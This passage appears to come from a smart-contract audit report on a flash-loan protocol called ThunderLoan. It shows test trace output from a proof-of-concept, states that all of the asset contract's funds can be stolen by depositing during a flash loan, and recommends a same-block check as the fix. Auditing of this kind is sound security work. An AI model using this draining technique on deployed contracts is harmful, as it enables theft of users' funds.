 ```bash
    │   │   ├─ emit Redeemed(account: 0x00000000000000000000000000000000000001c8, token: ERC20Mock: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], amountOfAssetToken: 0, amountOfUnderlying: 0)
    │   │   ├─ [3508] AssetToken::burn(0x00000000000000000000000000000000000001c8, 0)
    │   │   │   ├─ emit Transfer(from: 0x00000000000000000000000000000000000001c8, to: 0x0000000000000000000000000000000000000000, value: 0)
    │   │   │   └─ ← [Stop] 
    │   │   ├─ [6583] AssetToken::transferUnderlyingTo(0x00000000000000000000000000000000000001c8, 0)
    │   │   │   ├─ [3819] ERC20Mock::transfer(0x00000000000000000000000000000000000001c8, 0)
    │   │   │   │   ├─ emit Transfer(from: AssetToken: [0xa38D17ef017A314cCD72b8F199C0e108EF7Ca04c], to: 0x00000000000000000000000000000000000001c8, value: 0)
    │   │   │   │   └─ ← [Return] true
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Return] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [1712] ERC1967Proxy::fallback(ERC20Mock: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9]) [staticcall]
    │   ├─ [1195] ThunderLoan::getAssetFromToken(ERC20Mock: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9]) [delegatecall]
    │   │   └─ ← [Return] AssetToken: [0xa38D17ef017A314cCD72b8F199C0e108EF7Ca04c]
    │   └─ ← [Return] AssetToken: [0xa38D17ef017A314cCD72b8F199C0e108EF7Ca04c]
    ├─ [874] ERC20Mock::balanceOf(AssetToken: [0xa38D17ef017A314cCD72b8F199C0e108EF7Ca04c]) [staticcall]
    │   └─ ← [Return] 1000300000000000000000 [1e21]
    ├─ [0] VM::toString(1000300000000000000000 [1e21]) [staticcall]
    │   └─ ← [Return] "1000300000000000000000"
    ├─ [0] console::log("thunderLoan.Balance:", "1000300000000000000000") [staticcall]
    │   └─ ← [Stop] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.87ms (2.10ms CPU time)
```



### Impact

All the funds of the AssetContract can be stolen.



### Recommendation

Add a check in ` deposit() ` to make it impossible to use it in the same block of the flash loan.

For example, registring the block.number in a variable in ` flashloan() ` and checking it in ` deposit() `.



## M-01.The liquidity provider's token can be permanently locked in contract
